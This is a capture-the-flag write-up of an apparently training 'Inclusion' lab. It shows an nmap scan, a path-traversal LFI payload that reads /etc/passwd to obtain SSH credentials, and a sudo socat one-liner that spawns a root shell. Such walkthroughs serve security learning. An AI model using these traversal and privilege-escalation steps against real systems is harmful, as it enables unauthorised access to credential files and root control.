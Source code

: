 # LFI Vulnerability

[If you want to check my notes about LFI](https://github.com/itKhalid143/websec100/blob/main/Days/Day8-LFI%20%26%26%20RFI.md)

***

## user.txt

First We make an nmap scan!
```java
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDH1X4Cqbxb5okQZBN3LvsIM8dYZOxeMWlReUkWWp+ICQ+6RjVs+bSbShCPac1Zc+lbnfHte1ZRtMW8a3OodW02+8PXcDbZlmMNMWUQmM76D2NZz28PDC7vouYqSQGt6J6gfsTq2YqCMVPU28uoJ/Qvg5C6hM3oFFDztV2BN7Pj+SgZ8a5htxv5wgn/PtWju2CJCQzPhLUrkAlrSb97/YQcvtjwXUGzKGHo62Cl6GINLm3nAVqJnNpm7aWcKowdfnEsrp+S41W5xV1gl4CyvE9usk5LfQwlPDF50FCgzsidA7mn4NbTukdTsNMAOTe0oAmjXAE0q/KCT076stYjRphX
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPvYRKovqOIYhJN1NV8r3T3YTa4N40XFZaWSQjuYyZIsuL6D8Xn9C4v925gPkS/wZyYBh7CRt6CcSbd2ekPByzo=
|   256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAd782HHJj9kHBKUMOUOgfWVBU9LdeGrlTDQ+Z0hD8yI
80/tcp open  http    syn-ack Werkzeug httpd 0.16.0 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### After our result, we can see we have 2 open ports! which are 22/80

### Let check the Website!


- My eyes went directly to ```LFI-attack``` post, as this room was for LFI.
![****](/Inclusion/Pictures/1.PNG)

- First thing we can see, this text is weird! then I thought that could be a file loaded from the host using execute function! Then why not Input different path in the Url! and this was my payload:

```
http://10.10.216.81/article?name=../../../../etc/passwd
```
![****](/Inclusion/Pictures/2.PNG)

- And here we have the username and the password! let try to SSH!
```
ssh falconfeast@10.10.216.81 
```
### Boom! We're in!

![****](/Inclusion/Pictures/user.PNG)

## root.txt

- First thing I go is! 
```
sudo -l
```
the result was!

![****](/Inclusion/Pictures/root.PNG)

```java
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

Here we can run ```/usr/bin/socat``` as root! a quick search on gtfobins, the payload is ready
```php
sudo /usr/bin/socat stdin exec:/bin/sh
``` 

![****](/Inclusion/Pictures/root2.PNG)

# Thank you!